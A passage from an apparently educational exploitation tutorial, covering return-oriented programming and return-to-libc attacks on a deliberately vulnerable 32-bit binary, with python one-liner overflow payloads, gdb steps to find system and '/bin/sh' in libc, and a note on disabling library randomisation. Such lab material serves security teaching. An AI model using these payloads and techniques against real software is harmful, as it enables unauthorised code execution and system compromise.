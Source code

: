 We try this and get out shell:

~~~
:::console
$ ./a.out "$(python -c 'print "A"*0x6c + "BBBB" + "\x60\x83\x04\x08" + "CCCC" + "\x80\x85\x04\x08"')"
$
~~~

# Return to `libc` #

So far, we've only been looking at contrived binaries that contain the pieces we need for our exploit. Fortunately, ROP is still fairly straightforward without this handicap. The trick is to realize that programs that use functions from a shared library, like `printf` from `libc`, will link *the entire library* into their address space at run time. This means that even if they never call `system`, the code for `system` (and every other function in `libc`) is accessible at runtime. We can see this fairly easy in `gdb`:

~~~
:::console
$ ulimit -s unlimited
$ gdb -q a.out
Reading symbols from /home/ppp/a.out...(no debugging symbols found)...done.
(gdb) break main
Breakpoint 1 at 0x8048404
(gdb) run
Starting program: /home/ppp/a.out 

Breakpoint 1, 0x08048404 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0x555d2430 <system>
(gdb) find 0x555d2430, +999999999999, "/bin/sh"
0x556f3f18
warning: Unable to access target memory at 0x5573a420, halting search.
1 pattern found.
~~~

This example illustrates several important tricks. First, the use of `ulimit -s unlimited` which will disable library randomization on 32-bit programs. Next, we must run the program and break at main, after libraries are loaded, to print values in shared libraries (but after we do so, then even functions unused by the program are available to us). Last, the `libc` library actually contains the string `/bin/sh`, which we can find with `gdb`[^7] use for exploits!

[^7]: These can be found in the `libc` library itself: `ldd a.out` tells us that the library can be found at `/lib/i386-linux-gnu/libc.so.6`. We can use `objdump`, `nm`, `strings`, etc. on this library to directly find any information we need. These addresses will all be offset from the base of `libc` in memory and can be used to compute the actual addresses by adding the offset of `libc` in memory.

It is fairly straightforward to plug both of these addresses into our previous exploit:

~~~
:::console
$ ./a.out "$(python -c 'print "A"*0x6c + "BBBB" + "\x30\x24\x5d\x55" + "CCCC" + "\x18\x3f\x6f\x55"')"
$
~~~

# Chaining gadgets #


[^1]: [ASLR](https://en.wikipedia.org/wiki/ASLR) is the technique where portions of the program, such as the stack or the heap, are placed at a random location in memory when the program is first run. This causes the address of stack buffers, allocated objects, etc to be randomized between runs of the program and prevents the attacker.
[^2]: [DEP](https://en.wikipedia.org/wiki/Data_Execution_Prevention) is the technique where memory can be either writable or executable, but not both. This prevents an attacker from filling a buffer with shellcode and executing it. While this usually requires hardware support, it is quite commonly used on modern programs. 
[^3]: To make life easier for us, we compile with `gcc -m32 -fno-stack-protector easy_rop.c`. 
[^4]: You'll note that we use print the exploit string in a python subshell.  This is so we can print escape characters and use arbitrary bytes in our payload. We also surround the subshell in double quotes in case the payload had whitespace in it.
[^8]: I believe someone even [tried to prove](http://cseweb.ucsd.edu/~hovav/papers/rbss12.html) that ROP is turing complete.   
[^10]: Note the `$'\211'` syntax to enter escape characters.
[^11]: To see why this is necessary, compare the behavior of `echo ls | bash` to `cat <(echo ls) - | bash`.